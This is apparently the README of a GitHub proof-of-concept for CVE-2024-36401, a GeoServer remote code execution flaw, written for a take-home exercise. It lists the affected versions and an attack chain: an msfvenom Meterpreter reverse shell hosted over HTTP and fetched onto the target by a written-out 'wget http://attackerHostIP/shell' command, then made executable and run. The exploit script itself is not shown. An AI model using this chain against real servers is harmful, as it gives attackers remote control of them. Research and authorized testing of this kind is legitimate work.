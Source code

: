 <img src="https://tryhackme-badges.s3.amazonaws.com/Nader2.png" alt="Your Image Badge" />

# CVE-2024-36401 Proof of Concept (PoC)
## Remote Code Execution in GeoServer

This repo contains my POC version for **CVE-2024-36401**, a critical (RCE) vulnerability in GeoServer, developed as part of a take-home exercise.

### CVE Description - - https://nvd.nist.gov/vuln/detail/CVE-2024-36401
CVE-2024-36401 is a vulnerability in GeoServer that allows attackers to execute arbitrary code remotely due to improper input validation in the WFS `GetPropertyValue` request. By crafting a malicious request, an attacker can invoke Java's `Runtime.exec()` to run commands on the server.



Affected Versions

GeoServer versions before 2.23.6 (e.g., 2.23.5 and earlier)
GeoServer 2.24.0 to 2.24.3.
GeoServer 2.25.0 to 2.25.1.

### Exploit Method
This PoC demonstrates the exploitation of CVE-2024-36401 through the following steps...

1. **Payload Generation**: A 32-bit Linux Meterpreter reverse shell is generated with `msfvenom` and saved as an ELF binary (`shell`) in a user-specified directory.
2. **Web Server Hosting**: A Python `http.server` instance hosts the payload, allowing the target to download it.
3. **Command Execution**: A `curl` request delivers commands to the vulnerable GeoServer instance, sequentially:
   - Downloading the payload (`wget http://attackerHostIP/shell -O /tmp/shell`).
   - Setting execute permissions (`chmod +x /tmp/shell`).
   - Running the payload (`/tmp/shell`).
4. **Reverse Shell**: The executed payload connects back to a Metasploit listener, providing a Meterpreter session.

This approach targets 32-bit Linux GeoServer instances (e.g., Debian) and requires network reachability between the target and attacker’s IP.

### Requirements
- Python 3.x
- Metasploit Framework (`msfvenom` and `msfconsole`)
- A vulnerable GeoServer instance (hosted on debian for tests)
- Network access to the target

## In Action

<p align="center">
  <img src="showcase.gif" alt="demo">
</p>

## Disclaimer
This is for educational and authorized testing purposes only.
